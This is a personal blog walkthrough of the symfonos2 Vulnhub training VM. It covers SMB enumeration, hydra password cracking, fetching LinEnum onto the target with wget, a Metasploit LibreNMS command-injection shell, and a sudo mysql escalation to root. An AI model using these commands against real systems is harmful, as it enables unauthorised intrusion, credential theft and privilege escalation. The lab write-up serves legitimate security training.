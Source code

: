 ```yaml
---
layout: post
title: "symfonos2 - Vulnhub Boot2Root"
date: 2020-06-28
excerpt: "Walkthrough for the symfonos2 VM"
tags: [vulnhub, symfonos, symfonos2, Boot2Root]
comments: false
---
```


Another series I ran across on vulnhub is the symfonos series, which is a total of 6 boxes of increasing difficulty. Below is the walkthrough on the second box in the series.

## Reconnaissance & Scanning

After importing into VMware Workstation and booting up the machine, I was presented with the IP address of the host.

![symfonos2 ip address](/assets/img/symfonos2-1.png)

This can also be discovered running `netdiscover -i eth0` as shown below:

![symfonos2 netdiscover](/assets/img/symfonos2-2.png)

Now that we have the IP address of the host, we can run **nmap** to find what services are running on the machine.

![symfonos2 nmap](/assets/img/symfonos2-3.png)

As you can see, FTP, SSH, HTTP, and SMB are running on this target host. It also appears that anonymous SMB authentication is allowed. We will first enumerate the shares with **nmap's smb-enum-shares** script as shown below.

![symfonos2 nmap smb-enum-shares](/assets/img/symfonos2-4.png)

It appears that the anonymous user has access to a few shares, let's connect to the anonymous share with `smbclient \\\\192.168.68.138\\anonymous\\ -U anonymous -N`. We are able to successfully connect and there is a backups folder present with a **log.txt** file. Let's retrieve that file with **get**.

![symfonos2 smbclient pilfering](/assets/img/symfonos2-5.png)

This file contains some interesting information. It appears that the **/etc/shadow** file was backed up to **/var/backups/shadow.bak** and that anonymous FTP access is allowed.

![symfonos2 log.txt](/assets/img/symfonos2-6.png)
![symfonos2 log.txt](/assets/img/symfonos2-7.png)

Let's try to connect to the ftp servers as both anonymous and ftp. While these work, it appears that it is looking for a specific email address as a password which we have yet to uncover. Based on research, it appears that this occurs when anonymous FTP isn't configured properly.

![symfonos2 ftp attempt](/assets/img/symfonos2-8.png)

Reviewing the log file a bit further we come across a user account **aeolus**.

![symfonos2 log.txt](/assets/img/symfonos2-9.png)

At this point, I decided to run hydra to see if it was able to recover the password for this user. I elected to attack ftp as we know the aeolus user is running this service so you should be able to login with his credentials once uncovered.

After several minutes, we uncovered the password for **aeolus** which is **sergioteamo**.

![symfonos2 aeolus password](/assets/img/symfonos2-10.png)

We were able to successfully authenticate with these credentials via **ssh**.

![symfonos2 aeolus password](/assets/img/symfonos2-11.png)

Let's do some enumeration. In order to enumerate, let's server up an http server and use **wget** to download Linenum.sh to our victim's computer. The server can be spun up by running `python -m SimpleHTTPServer` and then can be retrieved on the victim's pc with `wget http://192.168.68.135:8000/Linenum.sh`

![symfonos2 python http server](/assets/img/symfonos2-12.png)
![symfonos2 wget](/assets/img/symfonos2-13.png)

Next, we have to make the script executable, which can be done with `chmod 777 LinEnum.sh`

![symfonos2 wget](/assets/img/symfonos2-14.png)

Next, we run LinEnum with the thorough option and with the apache keyword option (as we know this was running from the nmap scan) with `./LinEnum.sh -t -k apache`.

After review, we see that Apache's configuration file is in it's default location of **/etc/apache2/apache2.conf**

![symfonos2 wget](/assets/img/symfonos2-15.png)

Reviewing the Apache configuration file didn't show anything useful, but under the **sites-enabled** folder is another configuration file **librenms.conf**. This appears to be running on localhost only over port 8080 as shown below.

![symfonos2 librenms](/assets/img/symfonos2-16.png)

I wasn't sure what LibreNMS was as I hadn't heard of it, but let's search MetaSploit with ``searchsploit librenms` and see if anything shows up that can be used.

![symfonos2 searchsploit](/assets/img/symfonos2-17.png)

It appears that there are several potential exploits available. However, it appears that LibreNMS is only accessible from localhost. Let's do local SSH port forwarding with `ssh -L 8080:localhost:8080 aeolus@192.168.68.138`. This is one of several tricks related to port forwarding I learned from the SANS GPEN course recently.

![symfonos2 ssh local port forwarding](/assets/img/symfonos2-18.png)

Now we should be able to view this site from a web browser at http://127.0.0.1:8080/

![symfonos2 librenms login](/assets/img/symfonos2-19.png)

Let's try logging in with **aeolus** credentials we uncovered earlier.

![symfonos2 librenms login](/assets/img/symfonos2-20.png)

Success, we were able to login. Let's see if we can exploit this further with Metasploit. Launch Metasploit with the `msfconsole` command and use the `exploit/linux/http/librenms_addhost_cmd_inject` exploit with the options shown below:

![symfonos2 msfconsole librenms exploit](/assets/img/symfonos2-21.png)

Please note, the **LHOST** is the IP address of your attacker computer. Once reviewed with `show options` type in `run` and press enter.

You should now have a new shell to the victim host.

![symfonos2 msfconsole shell](/assets/img/symfonos2-22.png)

Run `python -c 'import pty;pty.spawn("/bin/bash")'` to get an interactive shell. You will see we're logged in as the **cronos** user as well.

![symfonos2 interactive shell](/assets/img/symfonos2-23.png)

Let's run `sudo -l` and see if **cronos** has access to run any programs as root.

![symfonos2 sudo -l](/assets/img/symfonos2-24.png)

Awesome, you can run mysql as root without a password, let's take a look at [GTFOBins]("https://gtfobins.github.io/") and see if there's an exploit that can be used to escalate privileges.

There is a one liner that can be ran `sudo mysql -e '\! /bin/sh'` that should result in root access.

![symfonos2 GTFOBins](/assets/img/symfonos2-25.png)

Let's run it and see what happens.

![symfonos2 root shell](/assets/img/symfonos2-26.png)

It worked! Now you just have to navigate to the root home directory and `cat proof.txt`

![symfonos2 root proof.txt](/assets/img/symfonos2-27.png)
